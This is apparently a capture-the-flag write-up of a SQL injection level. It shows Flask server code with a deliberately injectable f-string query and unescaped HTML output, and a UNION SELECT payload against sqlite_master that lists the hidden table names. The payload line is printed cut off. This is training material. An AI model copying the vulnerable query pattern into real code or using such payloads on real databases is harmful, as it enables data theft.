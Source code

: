 So far, the database structure has been known to you (e.g., the name of the users table), allowing you to knowingly craft your queries. As a developer, you might be tempted to prevent this by, say, randomizing your table names, so that an attacker can't specify them to query data that they are not supposed to. Unfortunately, this is not the slam dunk that you might think it is.

Databases are complex and much too clever for their own good. For example, almost all modern databases keep the database layout specification itself in a table. Attackers can query this table to get the table names, field names, and whatever other information they might need!

In this level, the developers have randomized the name of the (previously known as) users table. Find it, and find the flag!

## Solution

1. read the server code

```python
@app.route("/", methods=["GET"])
def challenge():
    query = flask.request.args.get("query", "%")

    try:
        # https://www.sqlite.org/schematab.html
        # https://www.sqlite.org/lang_select.html
        sql = f'SELECT username FROM {random_user_table} WHERE username LIKE "{query}"'
        print(f"DEBUG: {query=}")
        results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
    except sqlite3.Error as e:
        results = f"SQL error: {e}"

    return f"""
        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='{query}'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>{ sql.replace(random_user_table, "REDACTED") }</pre><br>
        <b>Results:</b><pre>{results}</pre>
        </body></html>
        """
```

2. get the table names in the database

input:

```
%" UNION SELECT name as username FROM sqlite_master WHERE type =
```

result:

```
admin
guest
users_8508342390
```
